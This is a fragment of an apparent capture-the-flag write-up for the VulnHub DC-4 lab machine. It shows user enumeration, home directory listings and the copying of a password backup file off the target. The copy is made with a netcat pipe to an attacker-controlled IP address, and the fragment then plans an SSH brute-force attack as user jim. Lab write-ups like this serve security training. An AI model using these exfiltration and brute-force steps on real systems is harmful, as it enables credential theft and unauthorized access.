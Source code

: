 ```
drwxr-xr-x  2 sam     sam     4.0K Apr  7 04:31 sam

[...]
```

`LinEnum` found 3 users in the system; `charles`, `jim`, and `sam`. Taking a look at their home directories show us 
that `charles` and `sam` don't give us much to work with while `jim` has 2 interesting files; a `.sh` that has a 
`-rwsrwxrwx` `SUID` and a file named `old-passwords.bak` which is located in a folder named `backups`. By copying 
`old-passwords.bak` to our system, we can examine it further.

```
$ ls -la /home/charles
-rw-r--r-- 1 charles charles  220 Apr  6 20:02 .bash_logout
-rw-r--r-- 1 charles charles 3526 Apr  6 20:02 .bashrc
-rw-r--r-- 1 charles charles  675 Apr  6 20:02 .profile

$ ls -la /home/sam
-rw-r--r-- 1 sam  sam   220 Apr  6 20:03 .bash_logout
-rw-r--r-- 1 sam  sam  3526 Apr  6 20:03 .bashrc
-rw-r--r-- 1 sam  sam   675 Apr  6 20:03 .profile

$ ls -la  /home/jim
-rw-r--r-- 1 jim  jim   220 Apr  6 20:02 .bash_logout
-rw-r--r-- 1 jim  jim  3526 Apr  6 20:02 .bashrc
-rw-r--r-- 1 jim  jim   675 Apr  6 20:02 .profile
drwxr-xr-x 2 jim  jim  4096 Apr  7 02:58 backups
-rw------- 1 jim  jim   528 Apr  6 20:20 mbox
-rwsrwxrwx 1 jim  jim   174 Apr  6 20:59 test.sh

$ cat jim/test.sh
#!/bin/bash
for i in {1..5}
do
 sleep 1
 echo "Learn bash they said."
 sleep 1
 echo "Bash is good they said."
done
 echo "But I'd rather bash my head against a brick wall."

$ ls -la /home/jim/backups
-rw-r--r-- 1 jim jim 2047 Apr  7 02:26 old-passwords.bak

$ nc -lvnp 7750 > old-passwords.bak 

$ cat /homejim/backups/old-passwords.bak | nc 192.168.2.112 7750
```

Taking a look at `old-passwords.bak` reveals a lot of possible passwords. Taking the `SSH` service running on Port 22 
to account, we'll brute-force the `SSH` as `jim` using this password list.


[DCAU]:                 https://twitter.com/DCAU7
[Login]:                /images/2019-09-13-vulnhub-dc_4/Login.png
[Admin Panel - 1]:      /images/2019-09-13-vulnhub-dc_4/Admin%20Panel%20-%201.png
[Admin Panel - 2]:      /images/2019-09-13-vulnhub-dc_4/Admin%20Panel%20-%202.png
[Admin Panel - 3]:      /images/2019-09-13-vulnhub-dc_4/Admin%20Panel%20-%203.png
[Burp Suite - 1]:       /images/2019-09-13-vulnhub-dc_4/Burp%20Suite%20-%201.png
[Burp Suite - 2]:       /images/2019-09-13-vulnhub-dc_4/Burp%20Suite%20-%202.png
[Burp Suite - 3]:       /images/2019-09-13-vulnhub-dc_4/Burp%20Suite%20-%203.png
[GTFOBin]:              https://gtfobins.github.io/gtfobins/tee/#sudo